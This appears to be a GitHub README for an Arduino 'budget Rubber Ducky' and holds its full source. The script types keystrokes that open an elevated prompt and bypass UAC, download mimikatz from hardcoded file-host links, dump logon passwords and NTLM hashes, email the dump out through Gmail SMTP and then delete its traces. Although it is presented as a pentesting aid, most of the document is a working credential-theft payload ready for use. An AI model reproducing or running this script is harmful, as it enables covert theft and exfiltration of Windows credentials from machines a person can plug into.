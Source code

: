 # Arduino mimikatz hash dump payload and report via email. Optimised for windows 10
## Runs mimikatz locally from a portable arduino and emails you the report. The Budget Rubber Ducky.

mimikatz dumps the NTLM password hashes, system information and more, very useful for pentesting.

<video controls="controls">
  <source type="video/webm" src="https://github.com/valkyrix/Arduino-mimikatz-dump-and-report-via-email-for-windows-10/raw/master/mimikatz_in_action.webm"></source>
  <p>Your browser does not support the video element.</p>
</video>

Tested on windows 10, 8, 7, *Vista* on both x64 and x86.

This script is optimised to run off portable arduino's such as the Arduino Pro Micro (really cheap at $3) but will also work on others. The script's size at only 6,812 bytes is perfect for small flash memory units.


#### Script run time: 5-10 seconds on an Arduino Pro Micro using the Arduino Leonardo chip
<img src="https://github.com/valkyrix/Arduino-mimikatz-dump-and-report-via-email-for-windows-10/raw/master/pro_micro.jpg" align="middle" height="350" width="350" >

Mimicats binaries have been hardcoded but they can be changed by replacing the two url's within the powershell command.

The script has been setup to communicate with the gmail smtp server but can be used with any email provider really.

Replace `EMAIL` and `PASSWORD` placeholders with your own.
Change the SMTP server and port information if you are not using gmail as the provider.

#### Script stages

- Launch elevated command prompt and bypass UAC
- Download the correct mimikatz exe based on processor type.
- Execute mimikatz and export data.
- Email the output to selected email address as an attachment using powershell's SMTP .
- Remove all traces on the system.

```Arduino
#include "Keyboard.h"

void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  Keyboard.begin();
  delay(500);
  Keyboard.press(KEY_LEFT_CTRL);
  delay(200);
  Keyboard.press(KEY_ESC);
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.print("cmd.exe");
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_LEFT_SHIFT);
  Keyboard.press(KEY_RETURN);
  delay(200);
  Keyboard.releaseAll();

  delay(1000);

  // Download the correct exe based on processor type
  Keyboard.print("powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?cw5v9jryul','%TEMP%\\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?13f1u3iqc3','%TEMP%\\pw.exe');}");
  typeKey(KEY_RETURN);
  delay(1500);

  // execute and export output from mimikatz
  Keyboard.print("%TEMP%\\pw.exe > C:\\pwlog.txt & type C:\\pwlog.txt;");
  typeKey(KEY_RETURN);
  delay(100);
  Keyboard.print("privilege::debug");
  typeKey(KEY_RETURN);
  Keyboard.print("sekurlsa::logonPasswords full");
  typeKey(KEY_RETURN);
  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("del %TEMP%\\pw.exe");
  typeKey(KEY_RETURN);
  delay(300);

  // email log via gmail
  Keyboard.print("powershell -ExecutionPolicy ByPass");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("$SMTPServer = 'smtp.gmail.com'");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo = New-Object Net.Mail.SmtpClient($SMTPServer, 587)");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.EnableSsl = $true");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('EMAIL', 'PASSWORD');");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail = New-Object System.Net.Mail.MailMessage");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.From = 'EMAIL'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.To.Add('EMAIL')");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Subject = 'Mimikatz report'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Body = 'script by Valkyrix.github.io'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Attachments.Add('C:\\pwlog.txt')");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Send($ReportEmail)");
  typeKey(KEY_RETURN);
  delay(7000);

  Keyboard.print("exit");

  typeKey(KEY_RETURN);

  // Cleanup and flee the scene.
  Keyboard.print("del C:\\pwlog.txt");
  typeKey(KEY_RETURN);
  delay(300);

  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
```


